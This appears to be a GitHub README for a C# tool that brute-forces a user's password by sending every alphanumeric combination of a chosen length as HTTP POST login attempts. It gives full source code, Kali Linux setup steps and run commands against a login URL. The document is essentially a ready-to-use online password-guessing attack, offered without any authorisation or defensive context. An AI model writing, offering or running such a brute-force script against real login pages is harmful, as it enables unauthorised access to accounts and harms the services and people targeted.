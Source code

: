 __<p style="font-size:40px">How the Code Works:</p>__

__<p style="font-size:20px">Arguments:</p>__

- url: The URL to which the HTTP POST requests are sent.
- username: The username for which you're trying to brute-force the password.
- passwordLength: The length of the password that will be brute-forced.

**Process:**

1. The program accepts the url, username, and passwordLength as arguments from the command line.
2. It then brute-forces passwords by generating all possible combinations of characters (uppercase, lowercase, and digits).
3. For each password attempt, the program sends an HTTP POST request to the specified URL with the username and the current password.
4. If the server responds with "Success", the correct password is displayed, and the process stops.


**How to Run the Program in Kali Linux:**
**Compile and Run:**
After creating the C# project and adding the code as described earlier, you can run the program using the following command:.

`dotnet run <url> <username> <passwordLength>`

For example:

`dotnet run https://example.com/login myuser 4`

**Explanation of Command:**
- https://example.com/login: This is the URL where the POST requests will be sent.
- myuser: This is the username for which the password is being brute-forced.
- 4: This is the length of the password being tested.

**Notes:**
- This program uses a simple character set of lowercase and uppercase letters, and digits (a-z, A-Z, 0-9).
- You can modify the character set in the charset variable if you want to include additional characters (e.g., special symbols).
- The program expects the server to respond with a string that contains "Success" upon a successful login attempt. You may need to modify this logic depending on the actual server's response format.

  
**Instructions for Using the C# Brute Force Script on Kali Linux via Terminal**

Follow these steps to set up, compile, and run the C# brute force script on Kali Linux through the terminal.

**1. Install .NET SDK on Kali Linux**
  Before running the C# script, you need to install the .NET SDK. Here’s how you can do it:
   
  **1.1 Update your package lists and install the required dependencies:**
    ```
    sudo apt update
    sudo apt install -y apt-transport-https software-properties-common
    ```
   
   **1.2. Add Microsoft’s package signing key and repository:**
    ```
    wget https://packages.microsoft.com/config/debian/10/packages-microsoft-prod.deb -O packages-microsoft-prod.deb
    sudo dpkg -i packages-microsoft-prod.deb
    ```
   
   **1.3. Install the .NET SDK:**
    ```
    sudo apt update
    sudo apt install -y dotnet-sdk-7.0
    ```
  
  **1.4. Verify the installation:**
    `dotnet --version`
    If installed correctly, it will display the version number (e.g., 7.0.100).

**2. Set Up the Project**
  
   **2.1. Create a new directory for the project:**
   `mkdir BruteForcePassword`
   `cd BruteForcePassword`
  
   **2.2. Create a new C# console application project:**
   `dotnet new console`
   
   This command generates the basic structure for a console project with a Program.cs file.

   **3. Add the Script**
   **3.1. Open the Program.cs file in a text editor:**
   `nano Program.cs`
   **3.2. Replace the content of Program.cs with the script code (provided above):**
```
using System;
using System.Net.Http;
using System.Text;
using System.Threading.Tasks;

class Program
{
    static async Task Main(string[] args)
    {
        if (args.Length != 3)
        {
            Console.WriteLine("Usage: dotnet run <url> <username> <passwordLength>");
            return;
        }

        string url = args[0];
        string username = args[1];
        int passwordLength;

        if (!int.TryParse(args[2], out passwordLength))
        {
            Console.WriteLine("Error: passwordLength must be an integer.");
            return;
        }

        await BruteForcePassword(url, username, passwordLength);
    }

    static async Task BruteForcePassword(string url, string username, int passwordLength)
    {
        using (HttpClient client = new HttpClient())
        {
            string charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
            int charsetLength = charset.Length;
            char[] password = new char[passwordLength];

            for (int i = 0; i < passwordLength; i++)
            {
                password[i] = charset[0];
            }

            bool success = false;

            while (!success)
            {
                string passwordString = new string(password);
                var data = new { username = username, password = passwordString };

                var json = Newtonsoft.Json.JsonConvert.SerializeObject(data);
                var content = new StringContent(json, Encoding.UTF8, "application/json");

                try
                {
                    HttpResponseMessage response = await client.PostAsync(url, content);
                    string responseString = await response.Content.ReadAsStringAsync();

                    Console.WriteLine($"Trying: {passwordString} - Server Response: {response.StatusCode}");

                    if (responseString.Contains("Success"))
                    {
                        Console.WriteLine($"Success! The correct password is: {passwordString}");
                        success = true;
                    }
                }
                catch (Exception ex)
                {
                    Console.WriteLine($"Error: {ex.Message}");
                    return;
                }

                success = IncrementPassword(password, charset, charsetLength);
            }
        }
    }

    static bool IncrementPassword(char[] password, string charset, int charsetLength)
    {
        for (int i = password.Length - 1; i >= 0; i--)
        {
            int currentCharIndex = charset.IndexOf(password[i]);

            if (currentCharIndex < charsetLength - 1)
            {
                password[i] = charset[currentCharIndex + 1];
                return false;
            }

            password[i] = charset[0];
        }

        return true;
    }
}
```

   **3.3. Save and exit the editor:**
   - Press CTRL + O, then Enter to save.
   - Press CTRL + X to exit nano.

**4. Install Newtonsoft.Json (for JSON serialization)**
The script uses `Newtonsoft.Json` for converting data to JSON format. You need to install this package in your project:

   **4.1. Install the Newtonsoft.Json package:**
   `dotnet add package Newtonsoft.Json`
   
**5. Compile and Run the Script**
   **5.1. Compile and run the project with your command-line arguments:**
   `dotnet run <url> <username> <passwordLength>`
   
   - `<url>`: The URL to which the POST requests will be sent.
   - `<username>`: The username for which you are attempting to brute-force the password.
   - `<passwordLength>`: The length of the password being brute-forced.

**Example:**
`dotnet run https://example.com/login myuser 4`

In this example:

   - The program will brute-force the password for the user myuser at https://example.com/login.
   - It will try passwords that are 4 characters long.

**6. Troubleshooting**

   - Ensure the server URL is correct and accessible.
   - The script expects the server to return a response containing the word "Success" upon a successful login. You may need to adjust this part of the code based on the actual response from the server you're testing against.


**Summary of Steps:**

1. Install .NET SDK: Set up the environment on Kali Linux.
2. Create a Project: Use dotnet new console to create a C# project.
3. Add the Script: Replace the default content in Program.cs with the provided script.
4. Install Dependencies: Install the Newtonsoft.Json package for JSON handling.
5. Run the Script: Use dotnet run with the URL, username, and password length as arguments.
6. Now your C# script will execute, sending HTTP POST requests and brute-forcing the password based on the command-line inputs.










































      
    


